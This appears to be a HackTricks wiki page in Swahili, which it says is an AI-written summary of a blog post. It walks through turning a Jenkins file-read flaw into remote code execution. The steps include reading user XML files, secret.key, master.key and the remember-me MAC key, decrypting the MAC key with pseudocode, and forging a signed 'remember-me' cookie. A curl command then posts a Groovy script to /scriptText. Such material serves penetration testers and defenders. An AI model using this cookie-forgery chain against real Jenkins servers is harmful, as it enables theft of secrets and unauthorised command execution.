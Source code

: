 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Katika chapisho hili la blog, inawezekana kupata njia nzuri ya kubadilisha udhaifu wa Local File Inclusion katika Jenkins kuwa RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Hii ni muhtasari ulioandikwa na AI wa sehemu ya chapisho ambapo ufundi wa kuki isiyo ya kawaida unatumika vibaya kupata RCE kwa kutumia kusoma faili za ndani hadi nitakapokuwa na muda wa kuunda muhtasari wangu mwenyewe:

### Masharti ya Shambulio

* **Mahitaji ya Kipengele:** "Remember me" lazima iwe imewezeshwa (mipangilio ya default).
* **Viwango vya Ufikiaji:** Mshambuliaji anahitaji ruhusa za Jumla/Soma.
* **Ufikiaji wa Siri:** Uwezo wa kusoma maudhui ya binary na maandiko kutoka kwa faili muhimu.

### Mchakato wa Kina wa Kutekeleza

#### Hatua ya 1: Kukusanya Data

**Ukurasa wa Taarifa za Mtumiaji**

* Fikia usanidi wa mtumiaji na siri kutoka `$JENKINS_HOME/users/*.xml` kwa kila mtumiaji ili kukusanya:
* **Jina la mtumiaji**
* **Mbegu ya mtumiaji**
* **Wakati**
* **Hash ya nywila**

**Uondoaji wa Funguo za Siri**

* Ondoa funguo za cryptographic zinazotumika kwa ajili ya kusaini kuki:
* **Funguo ya Siri:** `$JENKINS_HOME/secret.key`
* **Funguo Kuu:** `$JENKINS_HOME/secrets/master.key`
* **Faili ya Funguo ya MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Hatua ya 2: Uundaji wa Kuki

**Maandalizi ya Token**

*   **Hesabu Wakati wa Kuisha wa Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ongeza saa moja kwa wakati wa sasa
```
{% endcode %}
*   **Unganisha Data kwa Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Ufunguo wa MAC Ufunguo**

*   **Fungua Faili ya Funguo ya MAC:**

```javascript
key = toAes128Key(masterKey)  // Badilisha funguo kuu kuwa muundo wa funguo za AES128
decrypted = AES.decrypt(macFile, key)  // Fungua faili ya .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Hesabu ya Sahihi**

*   **Hesabu HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Hesabu HMAC kwa kutumia token na funguo ya MAC
tokenSignature = bytesToHexString(mac)  // Badilisha MAC kuwa mfuatano wa hexadecimal
```

**Ufungaji wa Kuki**

*   **Unda Kuki ya Mwisho:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 encode data ya kuki
```
{% endcode %}

#### Hatua ya 3: Utekelezaji wa Koodi

**Uthibitishaji wa Kikao**

* **Pata CSRF na Token za Kikao:**
* Fanya ombi kwa `/crumbIssuer/api/json` ili kupata `Jenkins-Crumb`.
* Pata `JSESSIONID` kutoka kwa jibu, ambayo itatumika pamoja na kuki ya remember-me.

**Ombi la Utekelezaji wa Amri**

*   **Tuma Ombi la POST na Skripti ya Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skripti ya Groovy inaweza kutumika kutekeleza amri za kiwango cha mfumo au shughuli nyingine ndani ya mazingira ya Jenkins.

Mfano wa amri ya curl iliyotolewa inaonyesha jinsi ya kufanya ombi kwa Jenkins na vichwa na kuki zinazohitajika ili kutekeleza nambari isiyo ya kawaida kwa usalama.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
